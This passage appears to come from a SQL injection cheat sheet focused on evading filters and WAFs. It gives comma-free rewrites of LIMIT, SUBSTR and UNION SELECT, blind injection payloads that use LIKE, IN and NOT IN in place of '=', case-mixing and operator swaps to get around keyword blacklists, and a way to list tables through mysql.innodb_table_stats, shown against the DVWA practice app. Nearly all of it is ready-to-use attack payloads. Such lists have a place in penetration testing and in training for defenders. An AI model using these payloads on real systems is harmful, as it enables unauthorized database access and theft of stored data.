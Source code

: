 ```sql
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

No Equal - bypass using LIKE/NOT IN/IN

```sql
?id=1 and substring(version(),1,1)like(5)
?id=1 and substring(version(),1,1)not in(4,3)
?id=1 and substring(version(),1,1)in(4,3)
```

Blacklist using keywords - bypass using uppercase/lowercase

```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

Blacklist using keywords case insensitive - bypass using an equivalent operator

```sql
AND   -> &&
OR    -> ||
=     -> LIKE,REGEXP, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING
```

Information_schema.tables Alternative

```sql
select * from mysql.innodb_table_stats;
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| database_name  | table_name            | last_update         | n_rows | clustered_index_size | sum_of_other_index_sizes |
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| dvwa           | guestbook             | 2017-01-19 21:02:57 |      0 |                    1 |                        0 |
| dvwa           | users                 | 2017-01-19 21:03:07 |      5 |                    1 |                        0 |
...
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+

mysql> show tables in dvwa;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+
```
